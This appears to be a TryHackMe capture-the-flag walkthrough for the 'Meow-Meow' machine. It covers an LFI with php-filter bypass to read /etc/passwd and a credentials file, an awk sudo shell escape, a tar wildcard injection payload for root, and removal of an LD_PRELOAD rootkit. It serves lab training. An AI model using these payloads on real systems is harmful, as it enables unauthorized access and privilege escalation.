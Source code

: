 ```yaml
---
title: Meow-Meow walkthrough
date: 2024-11-24 04:15:00 +0530
categories: [Writeup, TryHackMe]
tags: [lfi, privesc, tar wildcard, rootkit, user space rootkit]
image:
  path: /assets/writeup/tryhackme/meowmeow/meowmeow.png
  alt: Backtrack image
published: false
---
```

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
#### This is a medium level machine on tryhackme. In order to gain root access first we will use **LFI** to gain bat user access after that use the **awk** to gain devilx user shell then user **tar wildcard injection** to gain root and there we need to bypass the **rootkit** to gain root flag.
{: data-toc-skip=''}
<!-- markdownlint-restore -->
## **Enumeration**
### NMAP Scan

```console
Nmap scan report for 10.10.171.71
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
2200/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:34:c5:d4:c0:13:9e:1b:9f:e5:87:66:88:83:b0:65 (RSA)
|   256 b2:d8:ca:85:c3:14:a9:c1:73:46:03:c5:4c:38:82:48 (ECDSA)
|_  256 1d:01:08:e4:e7:2a:29:8a:00:ee:12:2d:6f:ef:f4:c9 (ED25519)
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/bat.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 2 ports open
- 2200 - SSH
- 8000 - webapp
### Port 8000
- This was a very minimal web application.
- But the nmap scan shows there is a disallowed entry `/bat.txt`
## bat user shell
### Contents of bat.txt

```console
text/gb2312
------------------------------------------------------------------------------------------------------
YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA=
------------------------------------------------------------------------------------------------------
```

- as the hint(gb2312) suggests it is a chinese character(from wikipedia (https://en.wikipedia.org/wiki/GB_2312)) for decoding no online tool found so made this small python script

```py
import base64

# Your Base64-encoded string
base64_string = "YmF0INPDu6e1xMPcwuvX7r38sbvW2NbDo6yyotf3zqqxuLfdtOa0otTatbHHsNPDu6fW98S/wrzW0LXEIGJhY2t1cC50eHQg1tA="

# Decode the Base64 string
decoded_bytes = base64.b64decode(base64_string)

# Decode the bytes to a GB2312-encoded string
gb2312_text = decoded_bytes.decode("gb2312")

print(gb2312_text)
```

### Output

```console
bat@MSI:~$ python3 a.py
bat 用户的密码最近被重置，并作为备份存储在当前用户主目录中的 backup.txt 中
```

- After translating

```
The bat user's password was recently reset and is stored as a backup in backup.txt in the current user's home directory.
```

- This text hint us that there is lfi somewhere lets try to find it
- Using `arjun` for finding parameters.

```console
kali@kali ~ → arjun -u http://10.10.171.71:8000/            
    _
   /_| _ '
  (  |/ /(//) v2.2.6
      _/      

[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] parameter detected: view, based on: body length
[+] Parameters found: view
```

- So lets try to access /etc/passwd
![1.png](/assets/writeup/tryhackme/meowmeow/1.png)
- We got invalid request maybe there are some filters in place.
- Lets try to bypass it through `php filters` payload
![2.png](/assets/writeup/tryhackme/meowmeow/2.png)
- We got base64 encoded response let's dcode it and see whats inside

```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
devilx:x:1000:1000:meowmeow:/home/devilx:/bin/bash
bat:x:1001:1001::/home/bat:/bin/sh
```

- We found current user's (www-data) home directory and the place where bat's password is stored. i.e. /var/www/backup.txt
![3.png](/assets/writeup/tryhackme/meowmeow/3.png)
- Another base64 but with rot 21
![4.png](/assets/writeup/tryhackme/meowmeow/4.png)

- These are the SSH creds lets login using SSH running on port 2200.
### user flag
- In the home directory of devilx user there is user.txt which is also accessible by bat. So in other words we got user.txt

## devilx user shell
- after using `sudo -l` we can see that bat user can use awk as devilx user so lets use this

```console
$ sudo -l
Matching Defaults entries for bat on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bat may run the following commands on meowmeow:
    (devilx) NOPASSWD: /usr/bin/awk
```

- payload used: `sudo -u devilx awk 'BEGIN {system("/bin/bash")}'`

## shell as root
- here if we do `sudo -l` we can see that devilx user can run `/opt/backup/backup.sh` as root

```console
devilx@meowmeow:/home/devilx$ sudo -l
Matching Defaults entries for devilx on meowmeow:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User devilx may run the following commands on meowmeow:
    (root) NOPASSWD: /opt/backup/backup.sh
```

### contents of backup.sh

```sh
#!/bin/bash
/bin/tar -cf backup.tar *
```

- After searching a little on google we can find a way to exploit this
- payload used:

```console
cd /home/devilx
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /opt/backup/backup.sh
```

![5.png](/assets/writeup/tryhackme/meowmeow/5.png)
### root flag
- although we are root we can't cat /root/root.txt
- there is an another file with name `important-notice.txt`

```
Now you have to find a rootkit which is harming our servers
```

- So due to this rootkit we are not able to cat /root/root.txt . We need to bypass this to get flag
- Let's check if it is user space rootkit using `ldd /bin/ls`

```console
root@meowmeow:/root# ldd /bin/ls
        linux-vdso.so.1 (0x00007ffd2b1b4000)
        /usr/local/lib/kit.so (0x00007f5fb120e000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f5fb0fe6000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f5fb0bf5000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f5fb09f1000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f5fb0780000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f5fb1632000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f5fb0561000)
```

- now finally we find kit.so that looks odd and its name also suggests that it is the rootkit harming sytem (preventing us from reading /root/root.txt)
- now we will just try to remove it by moving it from /lib to another directory
- after moving it we were able to get flag

```console
root@meowmeow:/root# mv /usr/local/lib/kit.so /tmp/
root@meowmeow:/root# cat root.txt 
ERROR: ld.so: object '/usr/local/lib/kit.so' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
<REDACTED>
root@meowmeow:/root#
```
